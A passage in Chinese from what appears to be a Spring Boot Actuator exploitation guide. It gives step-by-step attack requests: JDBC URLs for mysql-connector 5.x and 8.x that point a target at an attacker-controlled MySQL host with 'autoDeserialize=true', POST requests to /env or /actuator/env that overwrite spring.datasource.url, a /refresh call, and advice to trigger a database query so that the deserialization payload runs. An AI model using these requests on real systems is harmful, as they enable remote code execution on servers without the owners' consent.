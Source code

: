 

mysql-connector-java 5.x 版本设置**属性值**为：

```
jdbc:mysql://your-vps-ip:3306/mysql?characterEncoding=utf8&useSSL=false&statementInterceptors=com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor&autoDeserialize=true
```

 mysql-connector-java 8.x 版本设置**属性值**为：

```
jdbc:mysql://your-vps-ip:3306/mysql?characterEncoding=utf8&useSSL=false&queryInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor&autoDeserialize=true
```



spring 1.x

```
POST /env
Content-Type: application/x-www-form-urlencoded

spring.datasource.url=对应属性值
```

spring 2.x

```
POST /actuator/env
Content-Type: application/json

{"name":"spring.datasource.url","value":"对应属性值"}
```



##### 步骤四：刷新配置

spring 1.x

```
POST /refresh
Content-Type: application/x-www-form-urlencoded

```

spring 2.x

```
POST /actuator/refresh
Content-Type: application/json

```



##### 步骤五：触发数据库查询

尝试访问网站已知的数据库查询的接口，例如： `/product/list` ，或者寻找其他方式，主动触发源网站进行数据库查询，然后漏洞会被触发


